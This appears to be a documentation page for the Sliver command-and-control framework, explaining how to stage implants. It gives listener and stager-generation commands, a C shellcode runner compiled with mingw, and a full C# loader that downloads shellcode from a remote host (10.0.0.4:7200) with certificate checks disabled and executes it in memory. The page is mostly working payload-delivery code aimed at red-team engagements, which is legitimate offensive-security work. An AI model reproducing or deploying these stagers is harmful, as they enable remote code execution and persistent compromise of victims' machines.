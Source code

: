 # Stagers

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise we will create a new beacon profile and prepare to stage it.

```asciinema
{"src": "/asciinema/create_profile.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

If you look at the generated implant, you'll notice the `ID` field has been populated. When downloading your payload from the staging server your URL needs to be in the form of:
```
https://sliver-ip/whatever.stager_file_ext?x=yourID
```

There is a lot of flexibility in the form of this URL, the conditions for successfull staging are:
* The file extension needs to match the c2 profile's stager_file_ext
* There has to be a one character http url parameter
* The digits found in the ID need to match an implant ID, if your implant ID is 1234, abcd1234, 12beu34 are all valid values

To expose a payload externally you need to use the `implants stage` command and specifically select the implant to be exposed.

```asciinema
{"src": "/asciinema/stage_implant.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

At this point we can try retrieving our implant, the ID is 19778.

```asciinema
{"src": "/asciinema/implant_curl.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Sliver staging also supports encoding or encrypting our payloads before exposing them extenrally using the `profile stage` command, the implant configuration remains the same but you are now able to stage different versions of it simultaneously.

```asciinema
{"src": "/asciinema/stage_compress_encrypt.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```


## Metasploit

You can generate msfvenom shellcode to connect back to our stage listener and retrieve the second stage payload, however you’ll need to include the `--prepend-size` argument to the stage listener as Metasploit payloads require the length to be prepended to the stage. You can either kill the previous stage listener using the `jobs -k` command or run the stage listener on a different port:

```html
[server] sliver > stage-listener --url http://**%%LINUX_IPADDRESS%%**:7202 --profile profile1 --prepend-size

[*] Sliver name for profile: IDEAL_THRONE
[*] Job 2 (http) started
```

Once you have the stage listener setup with prepend size, you can generate the stager shellcode:

```bash
[server] sliver > generate stager --lhost **%%LINUX_IPADDRESS%%** --lport 7202 --protocol http --save /tmp --format c

[*] Sliver implant stager saved to: /tmp/HOLLOW_CHINO
```

Create a new file on the Linux box with the following contents and replace the `%%STAGE_SHELLCODE%%` field with the shellcode previously created:

```bash
#include "windows.h"

int main()
{
        unsigned char buf[] = **%%STAGE_SHELLCODE%%** ;
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();

    return 0;
}
```

Finally compile the payload.

```bash
x86_64-w64-mingw32-gcc -o stage.exe stager.c
```

Once the executable is copied over to a windows host and run you should see a session connect back to your host.

## Custom stager

You can also use a custom stager that just retrieves sliver shellcode directly and loads it in memory similarly to the previous stager.

```bash
using System;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(
           IntPtr lpAddress,
           uint dwSize,
           AllocationType flAllocationType,
           MemoryProtection flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            out IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(
            IntPtr lpAddress,
            uint dwSize,
            MemoryProtection flNewProtect,
            out MemoryProtection lpflOldProtect);

        [DllImport("kernel32.dll")]
        public static extern uint WaitForSingleObject(
            IntPtr hHandle,
            uint dwMilliseconds);

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }

    static async Task Main(string[] args)
        {

            byte[] shellcode;

            using (var handler = new HttpClientHandler())
            {
                // ignore ssl, because self-signed
                handler.ServerCertificateCustomValidationCallback = (message, cert, chain, sslPolicyErrors) => true;

                using (var client = new HttpClient(handler))
                {
                    // Download the shellcode
                    shellcode = await client.GetByteArrayAsync("http://10.0.0.4:7200/whatever.woff");
                }
            }

            // Allocate a region of memory in this process as RW
            var baseAddress = VirtualAlloc(
                IntPtr.Zero,
                (uint)shellcode.Length,
                AllocationType.Commit | AllocationType.Reserve,
                MemoryProtection.ReadWrite);

            // Copy the shellcode into the memory region
            Marshal.Copy(shellcode, 0, baseAddress, shellcode.Length);

            // Change memory region to RX
            VirtualProtect(
                baseAddress,
                (uint)shellcode.Length,
                MemoryProtection.ExecuteRead,
                out _);

            // Execute shellcode
            var hThread = CreateThread(
                IntPtr.Zero,
                0,
                baseAddress,
                IntPtr.Zero,
                0,
                out _);
            // Wait infinitely on this thread to stop the process exiting
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

## References

- [https://github.com/BishopFox/sliver/wiki/Stagers](https://github.com/BishopFox/sliver/wiki/Stagers)
